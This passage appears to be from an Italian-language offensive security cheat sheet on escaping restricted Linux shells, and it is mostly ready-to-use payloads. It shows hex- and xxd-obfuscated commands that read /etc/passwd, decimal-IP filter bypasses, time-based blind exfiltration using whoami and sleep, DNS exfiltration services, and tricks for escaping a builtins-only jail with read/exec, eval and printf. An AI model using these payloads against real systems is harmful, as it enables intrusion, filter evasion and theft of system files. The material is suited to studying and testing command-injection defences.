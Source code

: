```bash
cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat abc
`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
cat `xxd -r -p <<< 2f6574632f706173737764`
xxd -r -ps <(echo 2f6574632f706173737764)
cat `xxd -r -ps <(echo 2f6574632f706173737764)`
```
### Bypass IPs
```bash
# Decimal IPs
127.0.0.1 == 2130706433
```
### Esfiltrazione di dati basata sul tempo
```bash
time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
```
### Ottenere caratteri dalle variabili d'ambiente
```bash
echo ${LS_COLORS:10:1} #;
echo ${PATH:0:1} #/
```
### DNS data exfiltration

Puoi usare **burpcollab** o [**pingb**](http://pingb.in) per esempio.

### Builtins

Nel caso in cui non puoi eseguire funzioni esterne e hai solo accesso a un **insieme limitato di builtins per ottenere RCE**, ci sono alcuni trucchi utili per farlo. Di solito **non sarai in grado di usare tutti** i **builtins**, quindi dovresti **conoscere tutte le tue opzioni** per cercare di bypassare la jail. Idea da [**devploit**](https://twitter.com/devploit).\
Prima di tutto controlla tutti i [**shell builtins**](https://www.gnu.org/software/bash/manual/html_node/Shell-Builtin-Commands.html)**.** Poi qui hai alcune **raccomandazioni**:
```bash
# Get list of builtins
declare builtins

# In these cases PATH won't be set, so you can try to set it
PATH="/bin" /bin/ls
export PATH="/bin"
declare PATH="/bin"
SHELL=/bin/bash

# Hex
$(echo -e "\x2f\x62\x69\x6e\x2f\x6c\x73")
$(echo -e "\x2f\x62\x69\x6e\x2f\x6c\x73")

# Input
read aaa; exec $aaa #Read more commands to execute and execute them
read aaa; eval $aaa

# Get "/" char using printf and env vars
printf %.1s "$PWD"
## Execute /bin/ls
$(printf %.1s "$PWD")bin$(printf %.1s "$PWD")ls
## To get several letters you can use a combination of printf and
declare
declare functions
declare historywords

# Read flag in current dir
source f*
```